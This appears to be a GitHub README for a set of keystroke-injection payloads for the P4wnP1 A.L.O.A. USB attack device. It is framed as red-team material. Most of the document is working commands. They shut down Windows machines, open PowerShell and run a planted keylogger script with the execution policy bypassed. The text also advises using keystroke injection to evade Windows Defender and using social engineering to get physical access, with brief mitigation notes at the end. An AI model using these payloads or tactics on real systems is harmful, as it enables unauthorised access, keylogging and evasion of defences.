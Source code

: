 <h1>Windows HID Scripting</h1>

<h2>What is this?</h2>
<p>This is a small, curated library of custom payloads for the P4wnP1 A.L.O.A. Designed for quick deployment, each script demonstrates different HID attack techniques, ranging from simple command execution to more advanced automation. Ideal for ethical hacking, red teaming, and testing USB attack vectors in a controlled environment.</p>
<p>Please refer to the original repo to set up the raspberry pi - Be sure to ssh into the pi device or use upload the payloads via the web interface:</p>
https://github.com/RoganDawes/P4wnP1_aloa
or 
https://youtu.be/km81ph7pZz8?si=c6gQug7L4YSAEs9_

<h1>Simple Payloads</h1>

<h3>Close window</h3>
<p>Simply use short cut key to terminate the active task / window.</p>
<pre><code>
P4wnP1_cli hid run -c 'press("ALT F4)'
</code></pre>

<h3>Shutdown windows system</h3>
<p>Use keyboard shortcuts to power off the system. Best done when user is not active on the keyboard. The target may interupt the steps and misfire the payload.</p>
<p>Navigates the shutdown options with human level delays.</p>
<pre><code>
P4wnP1_cli hid run -c 'press("CTRL ALT DELETE"); delay(1000); press("UP"); delay(500); press("ENTER"); delay(500); press("UP"); delay(500); press("UP"); delay(500); press("ENTER"); delay(500); press("ENTER");'
</code></pre>

<h3>Open Run</h3>
<p>Use Windows and R key to open up the prompt to run applications and tasks.</p>
<pre><code>
P4wnP1_cli hid run -c 'press("WIN R");'
</code></pre>
<p>In theory we can open apps without the need for a mouse - all remotely.</p>
<pre><code>
P4wnP1_cli hid run -c 'press("WIN R");delay(500);type("notepad.exe\n");press("ENTER");delay(1000);type("This is a test! Payload here!");'
</code></pre>

<h3>Open Powershell</h3>
<p>Use run to open powershell and type payloads.</p>
<pre><code>
P4wnP1_cli hid run -c 'press("WIN R"); delay(500); type("powershell/n); press("ENTER");'
</code></pre>

<h2>How to use forward slash.</h2>
<p>The forward slash is essential. It allows you to locate files and execute payloads on a windows system.</p>
<p>It is important to note that the payloads rely heavily on the targets keyboard layout. Whilst this is changeable via HID script code, I had countless issues on finding a solution that worked for me.</p>
<p>After hours of trial and error, payloads on a UK/GB keyboards require some adjustment to enusre that we can enter a forward slash.</p>
<pre><code>
/
</code></pre>
<p>The easist way was to ensure that you are using a UK layout.</p>
<pre><code>
P4wnP1_cli hid run -c 'layout("gb");'
</code></pre>
<p>Using "|" will NOT work. Atleast in my tests...</p>
<p>The short cut key below is a working alternative.</p>
<pre><code>
P4wnP1_cli hid run -c 'layout("gb");press("RIGHT_ALT #");'
</code></pre>
<p>Note that this is a method for remotely activating the keys for forward slash, rather than use a type command (which gets mistaken for code) - so be sure you're on a typable field when executing a payload.</p>

<h2>Example payload using forward slash.</h2>
<p>This payload uses powershell to activate an external powershell script (pre-made pre-injected payload) in the specified planted location.</p>
<p>It executes a payload (keylogger.ps1) in the planted location 'C:\Users\Public\keylogger.ps1'</p>

<pre><code>
P4wnP1_cli hid run -c '
layout("gb");
press("WIN R"); delay(500);
type("powershell\n"); press("ENTER"); delay(1000);
type("powershell -ExecutionPolicy Bypass -File C:"); press("RIGHT_ALT #");
type("Users"); press("RIGHT_ALT #");
type("Public"); press("RIGHT_ALT #");
type("keylogger.ps1\n");
press("ENTER");
'
</code></pre>

<h2>The Formula!</h2>
<p>As we can see, these three commands will be the bread and butter to writing payloads</p>

<pre><code>
#to talk to the raspberry pi
P4wnP1_cli hid run -c '[add commands]'
  
layout("");
  
type("");

press("");

#milliseconds
delay(1000);
</code></pre>

<h2>Why is this important?</h2>
<p>We used a multitude of commands to help build a payload that schedules simulated-keyboard-strokes to take control over a target machine, without being in the seat.</p>
<p>It leverages a usb connection to disguise itself as a keyboard. Quite stealthy.</p>
<p>By manually typing in our commands, disguised as user input, we are able to counter antivirus software, like windows defender.</p>
<p>When building ps1 files or python files, windows defender will eradicate it before it even plants itself.</p>
<p>Why not trick the system by manually generating malicious commands via keyboard input?</p>

<h2>Execution vs Mitigation</h2>

<h3>Installing USB (Raspberry Pi)</h3>
<h4>Execution</h4>
<p>For this to work, a threat actor will need to have physical access to the target machine. Use social engineering to charm you way into the room, use a disguise or simply just walk into the room.</p>
<p>Most workers wont question who you are, especially if you look confident and you look like you are one with the team.</p>
<h4>Mitigation</h4>
<p>Provide all workspaces with access controls and physical locks. Be sure to educate staff on how to stay alert and be sharp with suspicious activity.</p>




<br>

<h3>Wifi</h3>
<h4>Execution</h4>
<p>To connect to the Pi, you're required to use a wifi connection produced by the Pi itself.</p>
<p>Use stronger wifi adapters to increase the range to improve stealth.</p>
<h4>Mitigation</h4>
<p>Have the security team frequently check on what wifi signals are live.</p>

<br>

<h3>privileges</h3>
<h4>Execution</h4>
<p>Access a computer who belongs to someone with higher permissions (IT)!</p>
<p>If they have access to root user then so do you!</p>
<h4>Mitigation</h4>
<p>Only allocate the appropriate privileges. Be strict with access control</p>

<h2>Connect with me</h2>
https://linktr.ee/teerasakmairoddee
